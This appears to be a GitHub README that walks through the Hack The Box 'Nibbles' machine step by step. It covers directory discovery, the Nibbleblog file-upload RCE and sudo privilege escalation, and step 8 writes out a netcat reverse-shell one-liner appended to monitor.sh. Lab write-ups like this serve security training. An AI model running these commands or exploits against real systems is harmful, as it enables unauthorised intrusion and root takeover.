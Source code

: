 1.How many open TCP ports are listening on nibbles?
First what we need to do is check what's happend on the server and how many ports are open.
We don't see nothing intresting, only some SSH and HTTP. Let's go dipper to find something more intresting.

![obraz](https://github.com/Anogota/Nibbles/assets/143951834/f41ed141-e648-4f40-b5d2-ebc17c793eff)

2.What is the relative path on the webserver to a blog?
First what i did is go to website, but there is nothing intresting, only Hello world!
But when i check the source code i found <!-- /nibbleblog/ directory. Nothing interesting here! -->
This looks very intresting and this also the answer for as question :)

3.What content management system (CMS) is being used by the blog??
I check the source code but there is nothing intresting, i recommend to install extensions wallalyzer, this extension help mi figure out what kind of software running on the server, but in this situation, wapalyzer don't detect the CMS lol :P
Next my think is maybe to find some switch for nmap to detect the CMS. I found this --script=http-enum but still i don't have any idea what kind of CMS is this.
After few min, checking the webpage i found in right corner: Powered by nibbleblog, lol

4.What is the relative path to an XML file that contains the admin username?
I used feroxbuster, with this tool you can, forced browsing is an attack where the aim is to enumerate and access resources that are not referenced by the web application, but are still accessible by an attacker. feroxbuster uses brute force combined with a wordlist to search for unlinked content in target directories
I found this:

![obraz](https://github.com/Anogota/Nibbles/assets/143951834/5d3e718a-289f-498e-9552-6ddeae9c8f2f)

5.What is the 2015 CVE ID for an authenticated code execution by file upload vulnerability in this version of NibbleBlog.
First our resource to find exploit is exploit-db, there no many exploit for NibbleBlog, but after few secend i found this.

![obraz](https://github.com/Anogota/Nibbles/assets/143951834/b55c098e-3424-40e2-bff5-5b95ff34226b)

But i try also find this exploit on metasploit and here is the results: 0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability
Now we need to insert all data to run this exploit.

![obraz](https://github.com/Anogota/Nibbles/assets/143951834/3e5cdd2a-0351-4598-a820-facbf40523cf)

All like RHOST or LHOST i hope you have to know, what kind of value the need, but the TARGETURI is /nibbleblog/content/private/users.xml
But i have no idea why this exploit don't wanna run, i do some recon and i found how to do RCE by file upload. You need to go plugins/my_image and there you can use your reverse-shell.php, but remember before upload this image, change the ip, on your local. After ur upload go to nibbleblog/content/private/plugins/my_image/ and there you can find your reverse-shell

![obraz](https://github.com/Anogota/Nibbles/assets/143951834/c4a4b6ea-3d75-4294-b844-ad34646fd11d)

6.Submit the flag located in the nibbler user's home directory.
You need to go into this directory and there you can find user.txt /home/nibbler

7.What is the name of the script that nibbler can run as root on Nibbles?
By command: sudo -l you can know, what kind of script nibbler can run as root, here is the results:
Now we know, this script name is monitor.sh

8.Submit the flag located in root's home directory.
It is easy to get you need to only write this command in your terminal: echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.17 1337 >/tmp/f' | tee -a monitor.sh
Than you have access by root. Than write this sudo /home/nibbler/personal/stuff/monitor.sh and you got this, the root.

![obraz](https://github.com/Anogota/Nibbles/assets/143951834/0fd73d4a-7b80-4aff-80c7-286c931650c3)

![obraz](https://github.com/Anogota/Nibbles/assets/143951834/febbccc3-9e94-47af-9bae-80a290a71b01)
